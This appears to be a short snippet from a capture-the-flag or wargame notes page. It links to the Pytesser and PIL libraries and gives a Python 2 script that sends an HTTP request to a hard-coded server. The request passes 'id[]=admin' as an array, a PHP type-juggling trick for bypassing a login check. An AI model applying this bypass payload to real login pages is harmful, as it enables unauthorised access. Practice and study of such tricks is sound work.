 # Pytesser
https://code.google.com/archive/p/pytesser/downloads

# PIL
http://www.pythonware.com/products/pil/

import httplib
URL = "112.217.149.186:10009"
RESOURCE = "/n00b/index.php?id[]=admin&pw=qwer10000002"
PARMAS = None
HEADERS = {"Content-Type":"application/x-www-form-urlencoded", "Accept":"*/*"}
def httpRequest(URL, RESOURCE, PARAMS, HEADERS):
        conn = httplib.HTTPConnection(URL)
        conn.request('GET', RESOURCE, PARAMS, HEADERS)
        response = conn.getresponse()
        data = response.read()
        conn.close()
        return data
print httpRequest(URL, RESOURCE, PARMAS, HEADERS)
